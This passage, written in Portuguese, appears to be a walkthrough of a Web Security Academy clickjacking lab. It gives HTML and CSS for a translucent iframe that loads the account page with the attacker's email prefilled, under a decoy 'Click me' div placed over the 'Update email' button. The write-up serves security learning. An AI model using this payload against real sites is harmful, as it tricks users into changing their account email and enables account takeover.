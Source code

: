 No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html

    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450px;
            left:80;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0ac5001603e1731dc069dba500e20009.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Como no laboratório anterior, o objetivo aqui é fazer com que a `div` fique sobre o botão `"Update email"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Update email"`, induzindo o usuário a atualizar seu email.

Porém, nesse laboratório, o campo de input `email` precisa ser preenchido com o email do atacante, para que o ataque seja bem sucedido. Para isso, iremos utilizar o parâmetro `email` da URL no `src` do `iframe`.

```html

    <iframe src="https://0ac5001603e1731dc069dba500e20009.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Utilizando o:

```css

    opacity: 0.3;

```

poderemos deixar o `iframe` transparente, para poder fazer os ajustes de forma que a div fique sobre o botão `"Update email"`. Então utilizando as propriedade `top` e `left`, iremos ajustar a posição da div para que ela fique sobre o botão.
